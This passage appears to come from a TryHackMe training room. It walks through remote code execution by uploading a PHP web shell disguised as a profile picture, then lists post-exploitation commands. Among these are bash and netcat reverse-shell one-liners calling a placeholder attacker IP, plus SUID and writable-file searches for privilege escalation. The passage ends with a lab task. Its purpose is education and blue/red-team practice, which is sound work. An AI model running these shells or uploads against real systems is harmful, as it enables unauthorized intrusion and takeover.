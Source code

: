 ![Profile picture uploaded](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053158718.png)  

In the case of this application, the RCE is possible through unrestricted file upload. Once this "profile picture" is uploaded and updated, it is stored in the `/admin/assets/img/profile/` directory. The file can then be accessed directly via `http://<ip-address-or-localhost>/<projectname>/admin/assets/img/profile/shell.php`. When this is accessed, we can then see the malicious code in action:

![Malicious code in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358466.png)  

Now, we can run commands directly against the operating system using this bar, and the output will be displayed. For example, running the command `pwd` now returns the following:

![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)

## Making the Most of It

Once the vulnerability has been exploited and you now have access to the operating system via a web shell, there are many next steps you could take depending on **a)** what your goal is and **b)** what misconfigurations are present on the system, which will determine exactly what we can do. Here are some examples of commands you could run once you have gained access and why you might run them (if the system is running on a Linux OS like our example target system):  

| **Command**                                               | **Use**                                                                                                                                                                       |
| --------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ls                                                        | Will give you an idea of what files/directories surround you                                                                                                                  |
| pwd                                                       | Will give you an idea of where in the system you are                                                                                                                          |
| whoami                                                    | Will let you know who you are in the system                                                                                                                                   |
| hostname                                                  | The system name and potentially its role in the network                                                                                                                       |
| uname -a                                                  | Will give you some system information like the OS, kernel version, and more                                                                                                   |
| id                                                        | If the current user is assigned to any groups                                                                                                                                 |
| ifconfig                                                  | Allows you to understand the system's network setup                                                                                                                           |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1                 | A command used to begin a reverse shell via bash                                                                                                                              |
| nc -e /bin/sh <your-ip> <port>                            | A command used to begin a reverse shell via Netcat                                                                                                                            |
| find / -perm -4000 -type f 2>/dev/null                    | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| find / -writable -type  f 2>/dev/null \| grep -v "/proc/" | Also helpful in privilege escalation attempts used to find files with writable permissions                                                                                    |


These are just some commands that can be run following a successful RCE exploit. It's very open-ended, and what you can do will rely on your abilities to inspect an environment and vulnerabilities in the system itself.  

## Practical

Your task today is two-fold. First, you must access Kibana on [10.10.52.168:5601](http://10.10.52.168:5601/) to investigate the attack and answer the blue questions below. Then, you will proceed to Frosty Pines Resort's website at [http://frostypines.thm](http://frostypines.thm/) and recreate the attack to answer the red questions and inform the developers what element of the website was vulnerable.
